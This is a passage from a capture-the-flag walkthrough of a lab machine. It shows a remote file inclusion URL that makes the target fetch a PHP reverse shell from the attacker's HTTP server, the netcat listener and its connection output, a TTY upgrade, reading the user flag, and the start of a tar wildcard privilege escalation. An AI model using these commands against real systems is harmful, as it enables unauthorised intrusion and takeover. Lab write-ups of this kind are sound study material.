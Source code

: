 Note: I tried multiple PHP reverse shells, some worked, some didnt. The one above definitely worked.

Then start a python server where shell.php is located:

```shell
python3 -m http.server 8443
```

Start nc listener after that:

```shell
nc -lvnp 1234
```

Now we can trigger the reverse shell and get a shell as www-data visiting the following URL on the web browser:

```shell
http://10.10.232.106/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.11.113.193:8443/php-reverse-shell.php
```

Success! Our nc listener got a response:
```shell
listening on [any] 1234 ...
connect to [10.11.113.193] from (UNKNOWN) [10.10.232.106] 59476
Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 14:58:44 up 35 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Upgrade the shell:

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### User Flag
Now we can get the user.txt flag:

```shell
cat /home/milesdyson/user.txt
```

# Privilege Escalation
### Tar Wildcard Expansion SUID Injection
Enumerating the directory of milesdyson, we found the script backup.sh:

```shell
www-data@skynet:/home/milesdyson/backups$ ls
ls
backup.sh  backup.tgz
www-data@skynet:/home/milesdyson/backups$ cat backup.sh
cat backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
www-data@skynet:/home/milesdyson/backups$ ls -al
ls -al
total 4584
drwxr-xr-x 2 root       root          4096 Sep 17  2019 .
drwxr-xr-x 5 milesdyson milesdyson    4096 Sep 17  2019 ..
-rwxr-xr-x 1 root       root            74 Sep 17  2019 backup.sh
```